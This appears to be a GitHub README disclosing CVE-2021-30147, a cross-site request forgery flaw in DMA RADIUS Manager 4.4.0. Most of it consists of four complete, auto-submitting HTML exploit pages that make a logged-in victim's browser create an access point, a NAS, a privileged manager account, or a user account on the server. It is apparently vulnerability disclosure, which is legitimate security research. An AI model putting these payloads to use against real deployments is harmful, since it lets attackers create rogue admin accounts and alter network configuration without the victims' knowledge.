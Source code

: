 # CVE-2021-30147 (DMA RADIUS Manager 4.4.0)

## CSRF - Creating Access Points

This exploit requires an attacker to have access to the web interface of the RADIUS Manager but an account isn't required (instead, this CSRF can be exploited in order to create an account for the attacker.). It also requires the victim to browse to our custom crafted webpage & be already logged in as a RADIUS user with the appropriate privileges for the certain action we want them to execute (EX: If we want the victim's account to create a new user account for us, the victim must be logged in as someone with sufficient privileges that allows them to create an account). 

By crafting a web page with the appropriate parameters for a POST request to the appropriate endpoint & having a victim visit our webpage, we're able to do various things by exploiting this vulnerability, such as:

* create a regular user or manager account
* create an access point
* create a new IP pool
* create a new CMTS
* create a new NAS
* create a new service plan

### Creating A New Access Point

The HTML for the website we'd use is:

```html
<html>

<body>
    <!-- change url to appropriate URL -->
    <form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_ap" method="POST">
        <input type="hidden" name="enable" value="1" />
        <input type="hidden" name="name" value="csrf_AP" />
        <input type="hidden" name="ip" value="192.168.1.2" />
        <input type="hidden" name="accessmode" value="0" />
        <input type="hidden" name="community" value="5" />
        <input type="hidden" name="apiusername" value="S" />
        <input type="hidden" name="apipassword" value="S" />
        <input type="hidden" name="apiver" value="0" />
        <input type="hidden" name="description" value="" />
        <input type="hidden" name="Submit" value="Store AP" />
        <input type="hidden" name="id" value="" />
    </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

All we need now is a victim that's logged in to browse to our webpage...and:

![](/demos/csrf-ap-2021-04-05-181829.gif)



### Creating A New NAS

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_nas" method="POST">
			<input type="hidden" name="name" value="CSRF_EXAMPLE" />
			<input type="hidden" name="nasip" value="192.168.1.6" />
			<input type="hidden" name="type" value="0" />
			<input type="hidden" name="secret" value="CSRF_EX" />
			<input type="hidden" name="coamode" value="0" />
			<input type="hidden" name="apiusername" value="" />
			<input type="hidden" name="apipassword" value="" />
			<input type="hidden" name="apiver" value="0" />
			<input type="hidden" name="descr" value="" />
			<input type="hidden" name="Submit" value="Add NAS" />
		</form>
	<script>
		document.forms[0].submit();
	</script>

	</body>
</html>
```

Once victim browses to our webpage...:

![](/demos/csrf-addnas-2021-04-05-191251.gif)



### Adding A New Manager Account

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_manager" method="POST">
			<input type="hidden" name="enablemanager" value="1" />
			<input type="hidden" name="managername" value="csrf_man" />
			<input type="hidden" name="password1" value="csrf" />
			<input type="hidden" name="password2" value="csrf" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="vatid" value="" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="perm_listusers" value="1" />
			<input type="hidden" name="perm_createusers" value="1" />
			<input type="hidden" name="Submit" value="Add manager" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And once victim browses to our webpage...:

![](/demos/csrf-addmanager-2021-04-05-19103.gif)



### Adding A New User

HTML source code:

```html
<html>
	<body>
        <!-- change url to appropriate URL -->
		<form action="http://radmandemo.dmasoftlab.com/admin.php?cont=store_user" method="POST">
			<input type="hidden" name="username" value="csrf_usr" />
			<input type="hidden" name="enableuser" value="1" />
			<input type="hidden" name="acctype" value="0" />
			<input type="hidden" name="password1" value="csrfusr" />
			<input type="hidden" name="password2" value="csrfusr" />
			<input type="hidden" name="maccm" value="" />
			<input type="hidden" name="mac" value="" />
			<input type="hidden" name="ipmodecpe" value="0" />
			<input type="hidden" name="simuse" value="1" />
			<input type="hidden" name="firstname" value="" />
			<input type="hidden" name="lastname" value="" />
			<input type="hidden" name="company" value="" />
			<input type="hidden" name="address" value="" />
			<input type="hidden" name="city" value="" />
			<input type="hidden" name="zip" value="" />
			<input type="hidden" name="country" value="" />
			<input type="hidden" name="state" value="" />
			<input type="hidden" name="phone" value="" />
			<input type="hidden" name="mobile" value="" />
			<input type="hidden" name="email" value="" />
			<input type="hidden" name="taxid" value="" />
			<input type="hidden" name="srvid" value="0" />
			<input type="hidden" name="downlimit" value="0" />
			<input type="hidden" name="uplimit" value="0" />
			<input type="hidden" name="comblimit" value="0" />
			<input type="hidden" name="expiration" value="2021-04-06" />
			<input type="hidden" name="uptimelimit" value="00:00:00" />
			<input type="hidden" name="credits" value="0.00" />
			<input type="hidden" name="contractid" value="" />
			<input type="hidden" name="contractvalid" value="" />
			<input type="hidden" name="gpslat" value="" />
			<input type="hidden" name="gpslong" value="" />
			<input type="hidden" name="comment" value="" />
			<input type="hidden" name="superuser" value="{SUPERUSER}" />
			<input type="hidden" name="lang" value="English" />
			<input type="hidden" name="groupid" value="1" />
			<input type="hidden" name="custattr" value="" />
			<input type="hidden" name="cnic" value="" />
			<input type="hidden" name="cnicfile1" value="(binary)" />
			<input type="hidden" name="cnicfile2" value="(binary)" />
			<input type="hidden" name="adduser" value="Add user" />
		</form>
	<script>
		document.forms[0].submit();
	</script>
	</body>
</html>
```

And one last visit from our victim to our webpage...:

![](/demos/csrf-addusr-2021-04-05-191131.gif)
